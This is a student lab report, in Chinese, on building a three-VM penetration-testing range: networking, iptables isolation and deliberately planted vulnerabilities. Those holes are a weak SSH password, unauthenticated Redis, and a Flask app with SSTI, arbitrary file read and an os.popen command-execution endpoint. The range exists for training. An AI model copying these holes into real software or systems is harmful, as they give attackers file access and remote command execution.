# 实验报告

## 题目描述及要求

我们这次实验要求搭建一个三虚拟机环境，用于模拟真实攻击路径中的“外网攻击 → 代理穿透 → 内网横向”的攻击链路。

首先我们需要三个虚拟机：一个虚拟机作为攻击机(外网网段)，用于模拟攻击者攻破内网找到漏洞；一个虚拟机作为中间代理机(跳板)，用于从网络上下载配置，并作为攻击者访问内网的唯一入口；还有一个虚拟机作为内网机(目标)，用于构造漏洞环境供攻击机最终解出来环境。

**IP地址要求：**

攻击机无IP要求

中间代理机IP为192.168.2.*

内网机IP为192.168.3.*

**联网要求：**

首先是攻击机，因为攻击机是不需要提供的所以言外之意就是不用对攻击机的网络作过多限制所以**net模式**就行同时作为攻击机要**能够访问代理机**且**不能直接访问内网机**(相当于在模拟真实攻击中“外网攻击者 → 先打代理机 → 再进入内网”的路径)

其次是代理机，这个机子需要做到能与外网连接即**net模式**(因为题目要求需要从网络上下载配置所以代理机需要满足能联网这一要求)以及**能直接访问内网机**(因为代理机是为了将网络上下载的配置传给内网机所以需要连接内网机)

最后是内网机，这个机子需要做到**与外网断连**即不能联网(因为内网机是用来构造漏洞的且由于题目要求有代理机所以便不再需要联网下载配置)并且该机子只能**访问代理机**(因为代理机下载的配置需要传给它)

**备注：**由于代理机和内网机后续需要分享给其他同学，所以环境的搭建需要设置为永久式的即保存到虚拟机的文档里并设置为开机可自启

## 环境的搭建

### 虚拟化环境的准备

**虚拟机的创建**

首先根据题目要求，我们需要创建三个虚拟机先，在这次实验中我选择用kali于是我准备了三个kali(kali网上有配置好的虚拟机用起来比较方便)

**网卡的配置**

虚拟机比较好准备令人比较头疼的是网卡的设置，首先看题目要求需要一个192.168.2.和一个192.168.3.的IP地址还有一个无要求的net，所以我们需要先把该IP的网卡配置好，打开VM的菜单栏里面的“编辑”找到“虚拟网络编辑器”我们放管理员权限后向里面添加两个所需网卡如图：



VMnet2和Vmnet3是我自己加的，分别填子网地址作为所需网卡

需要注意的是，在配置VMnet3的时候建议把“将主机虚拟适配器连接到此网络”取消勾选(这个IP是内网机的，为了防止内网和攻击机直接访问我们将该选项取消勾选)

此外，创建VMnet2和VMnet3的时候一定要取消DHCP(DHCP的作用是自动将IP会自动给机子分配IP，将这个打开后就不利于控制IP因为到时候IP我们是需要自己设置的)

**三个机子IP地址规划**

*攻击机：*因为其是net模式，所以开机前先确定它是不是net不是换成net就ok了



*代理机*：代理机的作用比较多，从上面的分析我们可以得出来首先需要一个net网卡；因为其IP是固定的所以我们还需要加一个配置其IP(192.168.2)的网卡(VMnet2)；又因为代理机需要和内网相连，所以代理机通内网IP(192.168.3)，所以我们还需要加一个网卡(VMnet3)


内网机：由于其不能联网所以不需要net网卡；又因为其IP是固定的所以我们还需要加一个配置其IP(192.168.3)的网卡(VMnet3)



### 系统配置过程

由于我的三台虚拟机均使用 Kali Linux，因此系统初始化操作一致。我在这里先统一介绍所有机子都需要执行的通用配置

**1.查看网络配置**

我们首先需要明确我当下正在配的机子的网卡名称：

```css
ip a
```

在这里放一个例子：



(运行出来大概长这样，我的IP是以及配置好了的配置之前应该eth1和eth2里面没有IP地址)

我们还需要查一下连接名(即确认 “Wired connection 2” 对应的是 eth1、eth2、eth0 中哪一个)：

```css
nmcli con show
```



(输出大概长这样，这也是配置好了的)

**2.设置静态IP**

命令行如下：

```css
sudo nmcli con mod "连接名字" ipv4.method manual ipv4.addresses 192.168.3.10/24
sudo nmcli con up "连接名字"
```

“连接名字”就是我们刚刚查出来的NAME里面的字符

注意：在题目分析中我曾提到需要持久化操作的事情，在设置静态IP的时候由于Kali 虚拟机均使用 NetworkManager 进行网络管理。通过命令所做的所有修改均会自动写入系统的持久化配置文件，所以通过nmcli 修改设置的静态IP、网关、DNS以及路由表都具有 **持久化效果**，在虚拟机重启后仍然会自动应用，无需再次操作。

### 配置路由

**路由：**路由是主机决定“某个目标 IP 的数据包应从哪个网卡、经过哪条路径发送出去”的过程，我们需要规定路由的路线

*攻击机和内网机：*因为他们都只有一个卡只能访问自己的网络，所以他们需要先将数据包交给代理机的IP然后通过 eth0 发出去。

例：在攻击机里面有这么个指令：

```bash
sudo ip route add 192.168.2.0/24 via 192.168.36.136 dev eth0
```

即告诉攻击机：如果目标是 192.168.2.*，就把数据包先交给192.168.36.136（代理机的外网 IP），通过 eth0 发出去

另一个IP192.168.2.*一样

而在内网机里面我们需要将内网机所有出网流量都交给代理机处理：

```bash
sudo ip route add default via 192.168.3.2 dev eth0
```

由于内网机只有内网所以内网机只能设置192.168.3.10/24网段这一条默认路由

*代理机：*由于代理机本身连接三个网段且每个网段都是直连，所以它天然就是一个三网卡路由器

所以我们在配置路由的时候直接：

```bash
sudo ip route add 192.168.2.0/24 dev eth1
sudo ip route add 192.168.3.0/24 dev eth2
sudo ip route add 192.168.36.0/24 dev eth0
```

即告诉代理机：访问 192.168.2.x 的包，直接走 eth1其余类似

**持久化设计：**

我们之前加的路由都属于手动添加并不是永久化路由，而在上面的报告中静态IP的设置时我提过通过nmcli 修改设置的静态IP、网关、DNS以及路由表都具有 **持久化效果**所以我们也可以用该方法配置路由：

内网机：

```bash
sudo nmcli connection modify "Wired connection 1" ipv4.method manual ipv4.addresses "192.168.3.10/24" ipv4.gateway "192.168.3.2" ipv4.dns "8.8.8.8"
sudo nmcli connection up "Wired connection 1"
```

攻击机：

```bash
sudo nmcli connection modify "Wired connection 1" +ipv4.routes "192.168.2.0/24 192.168.36.136"
sudo nmcli connection modify "Wired connection 1" +ipv4.routes "192.168.3.0/24 192.168.36.136"
```

代理机：

```bash
sudo nmcli connection modify "eth1-connection" ipv4.routes "192.168.2.0/24"
sudo nmcli connection modify "eth2-connection" ipv4.routes "192.168.3.0/24"
sudo nmcli connection modify "eth0-connection" ipv4.routes "192.168.36.0/24"
```

### 配置IP转发

**IP转发：**Linux默认不允许自己成为“路由器”即不允许自己承担一个数据传输者的功能，在IP转发开启后，Linux才能把收到的数据包转发给其他网段设备，所以如果代理机的转发不开启，那么两端的互ping也没办法成功。

在配置环境过程中主要的操作是IPv4的转发设置，这是需要做一个全局的转发(攻击机和代理机可以互ping，代理机和内网机也可以互ping)：

```css
sudo sysctl -w net.ipv4.ip_forward=1
```

这段命令就表示让 Linux 允许把收到的 IPv4 包按照路由表继续“转发”出去。

**持久化设计**：

我们需要编辑一个文件将该命令保存在该文档里面然后启动配置就可以实现开机自启了：

```bash
sudo nano /etc/sysctl.conf
```

```ini
net.ipv4.ip_forward = 1
```

```bash
sudo sysctl -p
```

### 配置NAT

**NAT：**NAT又称网络地址转换，它主要有两种作用：

一个是把内网设备的源 IP 替换成路由器的 IP，使其能访问外网(该转换即源地址转换**SNAT**)

另一个通常用于端口转发等功能，使外部流量能访问内部服务器(即目标地址转换**DNAT**)

在我们的实验中，要让内网机能够通过代理机访问网络就需要开启SNAT。

我们在代理机执行：

```bash
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

其中"-t nat"就表示在NAT表上操作，”POSTROUTING“表示对“即将发出本机”的数据包做转换，“-o eth0”即离开代理机，从eth0网卡出去的流量执行NAT，最后的“MASQUERADE”表明自动使用该网卡当前的 IP 来做 SNAT

我们在给代理机设置NAT其实就相当于把代理机变成了内网机的路由器模式让内网机通过替换成代理机IP最终实现正常访问互联网的需求。

同时，由于我们的NAT只做SNAT，不做DNAT，那么外部流量就不能访问内部服务器，也就实现了隔离，即攻击机永远无法直接访问内网。

**持久化设计：**

NAT的持久化我们需要借助iptables-persistent服务，所以我们要先安装：

```bash
sudo apt install iptables-persistent
sudo netfilter-persistent save
```

该指令将当前的iptables规则写入了/etc/iptables/rules.v4在下次开机就可以自动恢复 NAT 规则，这个也是Kali最标准、稳定的持久化方法。

### 代理机iptables策略设计

在我们的实验中，代理机同时连接了三个网段，在前面的分析中我们可以总结出来：代理机需要运行攻击机访问ip.2禁止访问ip.3，而要实现这个也就需要我们进行防火墙规则设置，相当于在代理机上搭了个防火墙阻止攻击机访问子网实现隔离。

由于 iptables 是 Linux 下最基础且最强大的防火墙控制工具，所以我们使用它对代理机进行访问控制。

在完成了上面所有操作后，我们只是实现了虚拟机间基本的连通性，这样会导致攻击机可以直接访问内网这是不符合我们预期的，所以最终我通过编写iptables 策略成功限制了攻击机的访问，这使得攻击机只能访问IP.2，而不能进入IP.3。

**清空旧的规则：**

为了避免之前调试时添加的规则影响最终结果，我首先清空所有表、链：

```bash
sudo iptables -F
sudo iptables -X
sudo iptables -t nat -F
sudo iptables -t nat -X
```

**设置默认策略：**

我们首先默认全部拒绝，只放行运行的流量来实现防火墙的“防”：

```bash
sudo iptables -P INPUT DROP
sudo iptables -P FORWARD DROP
sudo iptables -P OUTPUT ACCEPT
```

其中，“INPUT DROP”表示外部进入代理机的流量默认解决；“FORWARD DROP”表示任何跨网段的转发都默认被阻断；而“OUTPUT ACCEPT”指代理机可以自由访问外界。

接下来我们需要细化“INPUT”和“FORWARD”来实现防火墙：

**INPUT链策略：**

我们需要允许回环、本机会话、以及攻击机访问代理机即将这些从拒绝范畴去掉：

```bash
sudo iptables -A INPUT -i lo -j ACCEPT
sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A INPUT -s 192.168.36.0/24 -j ACCEPT
```

其中lo是回环流量，在这段指令中，我们实现了包允许被返回以及外部攻击机运行访问代理机(第三行命令.36是代理机net的IP)

**FORWARD 链策略：**

我们在配流量转发的时候需要实现三个部分：

首先是允许代理机发出的流量返回给攻击机：

```bash
sudo iptables -A FORWARD -s 192.168.36.0/24 -d 192.168.2.0/24 -j ACCEPT
sudo iptables -A FORWARD -s 192.168.2.0/24 -d 192.168.36.0/24 -m state --state ESTABLISHED,RELATED -j ACCEPT
```

其次是要禁止攻击机直接访问内网,攻击机只能访问代理机：

```bash
sudo iptables -A FORWARD -s 192.168.36.0/24 -d 192.168.3.0/24 -j DROP
```

最后还要允许代理机发出的流量和内网机发出的流量能够互通：

```bash
sudo iptables -A FORWARD -s 192.168.2.0/24 -d 192.168.3.0/24 -j ACCEPT
sudo iptables -A FORWARD -s 192.168.3.0/24 -d 192.168.2.0/24 -m state --state ESTABLISHED,RELATED -j ACCEPT
```

这样我们就实现了在流量方面对防火墙的控制！

**持久化：**和NAT相同，我们也使用 iptables-persistent对其进行持久化：

```bash
sudo apt install iptables-persistent
sudo netfilter-persistent save
```

该部分小结：**只有在加入“禁止攻击机访问内网 3”的 FORWARD 规则后，整个多网段隔离模型才真正稳定运作**

### 环境搭建遇到的问题

按理说，在实现了上面这些操作之后我们应该是成功搭建好了所需环境且通过互ping调试最终的环境应该是符合要求的，但不知道为什么，我的攻击机一直可以ping成功内网，于是我可是了漫漫找问题之路，我经历了对代理机和内网机的每个细节的运行调试检查后依旧没有找到问题，最后我打算换个检测方法：我在内网搭了个网站让攻击机监听测试流量包但是很神奇的发现：攻击机虽然可以ping通IP.3但是没有办法返回任何东西甚至并没有办法访问网站，后来在我疯狂逼问ai下，ai给了我一个合理解释：我ping的IP.3实际不是本地局域网的主机而是被VMware 虚拟路由器处理的地址并不是我所隔离的区域，即VM有优化路由它可以自动找一条能走的小道转发流量。后来我问了同学才得知，攻击机的流量也得进行限制不然没办法进入真正的隔离区，于是我又对攻击机制定了一下流量流入代理机：

```nginx
sudo ip route add 192.168.2.0/24 via 192.168.36.133
sudo ip route add 192.168.3.0/24 via 192.168.36.133
```

也就是上面配置路由时对攻击机所作的操作，在这里单独在提出来主要是它真真坑了我好大一圈，我找了好长时间问题也没找到，最开始搭建环境的时候根本就没想过对攻击机作任何的限制，这也是我的最大疏忽。

### 环境测试

到现在，我们的环境也就算搭好了，我们需要对三个机子进行测试并放结果确保没有问题

攻击机：



代理机通，内网机不通——符合要求

代理机：



攻击机、代理机、内网机全部通——符合要求



代理机、内网机通，外网不通——符合要求

成功搭建所需环境！

## 漏洞的构造

**分析题目要求并决定构造漏洞**

既然环境搭建好了，那我们来到漏洞构造环节，我们首先需要明确我们漏洞构造的位置，我们需要实现一个分层渗透：由攻击机到代理机实现第一跳然后再由代理机攻入内网，我们需要在代理机和内网机分别放置漏洞，最后在内网机放置flag并找到flag。

在所有可选漏洞中，我最终选定了代理机放置弱口令SSH和Redis未授权访问，而内网机我最终选定了脆弱的Flask Web应用，下面我将分别详细讲讲漏洞的构造。

### 代理机漏洞构造

#### 漏洞1——弱口令SSH

首先我们需要在代理机上创建一个弱口令用户作为攻击入口，实现口令如下：

```bash
sudo useradd -m -s /bin/bash student
echo "student:students" | sudo chpasswd
```

这是一个极容易被爆破的弱口令，用户名是student，密码是students，我将在下面对该命令作详细解释：

首先“useradd”即创建新用户，-m是自动创建用户家所在目录，-s /bin/bash是指定用户使用bash作为登录的shell，“chpasswd”表明通过chpasswd批量格式来设置用户密码

如果ssh保持打开状态，用户即可以使用ssh登录。

**持久化设计：**我们需要在代理机上执行来确保SSH服务长期开启：

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

其中enable保证了开机自动开启，start确保了ssh服务当下立即开启

#### 漏洞2——Redis弱口令漏洞

我首先安装了Redis但未设置密码：

```bash
sudo apt install -y redis-server
```

然后我又将Redis配置设为允许外网访问，最终Redis运行的状态如下：



在实验中默认是0.0.0.0监听。

Redis由于没有设密码，对所有的IP都可以开放，攻击者无需密码即可直接获取Redis权限，属于典型的未访问授权。

有了该权限后就可以实现像SSH公钥提权、清楚数据、注入恶意配置甚至获取系统信息等行为

**持久化设计：**Redis安装后默认是实现systemed自启的，但是我在关机后再开机发现我的系统出现报错，systemed不可用，因此我没办法用systemctl管理服务，所有我还需要用别的方法给该漏洞做永久化：

```nginx
sudo crontab -e
```

```bash
@reboot /usr/bin/redis-server --daemonize yes
```

我最后选择了使用cron@reboot来对其作永久化，开机后@reboot脚本会生效，确保了漏洞2的开启

### 内网机漏洞构造

本次实验漏洞构造的重点应该还是在内网构造的一个可被攻击机利用的Flask模板注入(SSTI)漏洞，并且在代理机通过socat建立反向的转发使得攻击机在外网环境依然能够访问内网的漏洞服务

我在这里先解释一下SSTI漏洞吧：SSTI是一种服务器端模板注入漏洞，发生在应用程序使用模板引擎渲染用户输入时。攻击者能够注入恶意模板代码，在服务器端执行任意代码。

其实也就是将用户输入与模板代码相混合，导致用户的输入被当作代码执行，只有严格严格分离代码和数据，对用户输入进行适当的转义和过滤才能输出正确指令，算是比较难缠的一个漏洞了吧

#### 漏洞3——Flask SSTI漏洞

##### Flask的安装

由于Flask要装在内网上，而内网又断网了，所以我们需要的Flask没办法在内网下载，我们需要先实现从代理机上下好Flask然后传到内网上

首先我们需要在代理机上面下载Flask及其依赖包(`.whl` 格式):

```bash
mkdir ~/pkgs
cd ~/pkgs
pip download flask
```

pip download这个指令会将Flask所需的所有依赖一并下载下来成.whl包可以复制到内网机离线安装

然后我们需要将这些包复制到内网机，我在该次实验中用的方法是ssh服务：

我首先在内网机启动了ssh服务并且设置了开机自启：

```bash
sudo systemctl start ssh
sudo systemctl enable ssh
sudo systemctl status ssh
```

然后我们在代理机通过ssh用scp将这些文件传到内网机：

```bash
scp ~/pkgs/* kali@192.168.3.10:/home/kali/
```

接下来我们就需要在内网中完成剩余操作了，内网机虽然没办法上网，但是系统自带python，我们可以用python来创建独立的虚拟环境：

```bash
python3 -m venv ~/flaskenv
source ~/flaskenv/bin/activate
```

这两个命令首先创建了一个独立的Python 运行环境，避免污染系统 Python，让 Flask 和依赖都装在独立目录中；然后又激活了该虚拟环境，现在我们就可以在内网机离线安装Flask了：

```bash
cd ~/pkgs
pip install *.whl
```

最后我们再运行Flask导入测试来确认Flask是否能正常被 Python 导入：

```bash
Flask OK: 3.1.2
```

到这里，我们Flask的安装就结束了

##### Flask SSTI漏洞的构建

我们首先需要先写一个脆弱的Flask Web服务：

```bash
mkdir ~/vuln_flask
cd ~/vuln_flask
sudo nano app.py
```

```python
from flask import Flask, request, render_template_string
import os

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get("name", "Guest")
    template = f"Hello, {name}!"
    return render_template_string(template)

# 任意文件读取
@app.route("/read")
def read():
    path = request.args.get("file")
    if not path:
        return "Please specify ?file="
    try:
        return open(path, "r").read()
    except Exception as e:
        return str(e)

# RCE
@app.route("/rce")
def rce():
    cmd = request.args.get("cmd")
    return os.popen(cmd).read()

# ----------------------------
#       新增：SSTI 漏洞点
# ----------------------------
@app.route('/ssti', methods=['GET', 'POST'])
def ssti():
    if request.method == 'POST':
        name = request.form['name']

        # 漏洞点：用户输入拼接模板
        tmpl = f"<h1>{name} is sb</h1>"

        MODE = "echo"  # "noecho" 为无回显模式

        if MODE == "echo":
            return render_template_string(tmpl)

        elif MODE == "noecho":
            render_template_string(tmpl)
            return "success"

    return '''
    <form method="POST">
        <input name="name">
        <button type="submit">Submit</button>
    </form>
    '''

app.run(host="0.0.0.0", port=5000)
```

然后我们让该靶机服务运行也就算好啦：

```bash
cd ~/vuln_flask
source ~/flaskenv/bin/activate
python3 app.py
```

**持久化设计：**我们要实现内网机Flask服务的开机自启实际上方法也很多，我最后选择的是创建systemed服务实现开机自启：

```swift
sudo nano /etc/systemd/system/vuln-flask.service
```

```ini
[Unit]
Description=Vulnerable Flask Server
After=network.target

[Service]
User=kali
WorkingDirectory=/home/kali/vuln_flask
ExecStart=/home/kali/flaskenv/bin/python3 app.py
Restart=always

[Install]
WantedBy=multi-user.target
```

然后开启该服务：

```sql
sudo systemctl daemon-reload
sudo systemctl enable vuln-flask
sudo systemctl start vuln-flask
```

验证该服务是否开启：

```lua
sudo systemctl status vuln-flask
```



##### 代理机使用socat反向端口转发

由于靶机位于内网，其 8080 端口对外不可访问。为了让攻击机能够访问靶机的易受攻击 Flask 服务，我在代理机上使用 socat 将代理机的 8080 端口转发至靶机的 5000 端口：

```bash
socat TCP-LISTEN:8080,fork TCP:192.168.3.10:5000
```

使用了该命令后，代理机会监听自己的8080端口并且将所有访问该端口的流量全部代转发到靶机的5000端口上

这其实也就是将我们的内网服务暴露在了外网，如果我们不在代理机上进行反向转发操作，攻击机curl该端口后就会直接超时，因为靶机是内网隔离。

**持久化设计：**同样地，上面那条指令也就是一个即时指令，要想让代理机每次开机都自动转发该漏洞端口，我也是创建了systemed端口：

```bash
sudo nano /etc/systemd/system/socat-proxy.service
```

```ini
[Unit]
Description=TCP proxy from 192.168.2.10:8080 to 192.168.3.10:5000
After=network.target

[Service]
ExecStart=/usr/bin/socat TCP-LISTEN:8080,fork TCP:192.168.3.10:5000
Restart=always
User=root

[Install]
WantedBy=multi-user.target
```

然后我们还是开启该服务：

```bash
sudo systemctl daemon-reload
sudo systemctl enable socat-proxy
sudo systemctl start socat-proxy
```

验证该服务是否开启：

```lua
sudo systemctl status socat-proxy
sudo ss -tlnp | grep 8080
```



到这里，我们漏洞的构造就完全实现了！

### 关于flag

实际上，在本次实验中，我设置了两个flag，一个在代理机一个在内网机，攻击者需要分别拿到代理机和内网机的flag

代理机的漏洞比较好进flag也比较好找，在此我设置如下：

```bash
 echo "moectf{proxy_first_compromise}" | sudo tee /root/proxy_flag.txt
 chown student:student /home/student/proxy_flag.txt
chmod 644 /home/student/proxy_flag.txt
```

我顺便给flag提了个权使得其变成了可读文件方便操作

在完成代理机漏洞和内网 Flask SSTI 服务搭建后，我在内网靶机上放置了本次实验的最终目标 —— flag，flag我在内网放置了名为flag.txt的文件，攻击者主要渗透进内网找到flag就能拿到flag的内容：

```bash
cd ~/vuln_flask
echo "moectf{ssti_success_2025}" > flag.txt
cat flag.txt
```

## 攻击机攻入漏洞机

### 漏洞效果验证

#### 漏洞1——弱口令SSH

通过SSH直接登入代理机，验证证明该漏洞有效：


#### 漏洞2——Redis弱口令漏洞

攻击者无需密码即可以进入Redis，证明该漏洞有效：



#### 漏洞3——Flask SSTI漏洞

我们在虚拟机上curl该漏洞所在端口看是不是有响应，证明该漏洞有效：


